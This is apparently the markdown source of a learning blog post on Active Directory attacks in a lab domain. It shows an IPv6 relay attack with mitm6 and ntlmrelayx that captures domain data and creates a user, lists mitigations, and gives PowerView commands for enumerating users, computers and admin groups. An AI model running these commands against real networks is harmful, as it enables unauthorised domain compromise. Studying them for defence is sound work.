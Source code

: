 ```yaml
---
title: Active Directory Attacks (Part 2)
date: 2023-10-20
categories: [Learning, Active Directory]
tags: [Active Directory, AD]
author: barabulkit
---
```


## IPv6 Attack

```shell
mitm6 -d arasaka.local
ntlmrelayx.py -6 -t ldaps://192.168.1.100 -wh fakewpad.arasaka.local -l lootme
```

This will gather info about domain users and computers and store it on lottme folder, also will create user when it catches administator user logged into computer

### Mitigation

 - disable IPv6
 - if WPAD is not used disable it via Group Policy by disabling WinHttpAutoProxySvc
 - Relaying to LDAP and LDAPS mitigated by enabling both LDAP signing and channel binding
 - making Administrative usrs as `Account is sensitive and cannot be delegated`

## Post Compromise Enumeration Tools

### [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

 ```powershell
 Get-NetDomain
 ```
 ![GetNetDomain](/assets/img/acd/powerview/getnetdomain.png)

  ```powershell
 Get-NetDomainController
 ```
 ![GetNetDomainController](/assets/img/acd/powerview/getnetdomaincontroller.png)

 ```powershell
 Get-NetUser | select cn, logoncount
 ```
 ![ListUsers](/assets/img/acd/powerview/userlist.png)

```powershell
Get-NetComputer | select name
```
 ![ListComputers](/assets/img/acd/powerview/computerslist.png)

 ```powershell 
 Get-NetGroup | where -Property name -Like "*админ*" | select name
 ```
  ![AdminGroups](/assets/img/acd/powerview/getadmingroups.png)


```powershell
Get-NetGroupMember "администраторы домена" | select MemberName
```
  ![DomainAdmins](/assets/img/acd/powerview/getdomainadmins.png)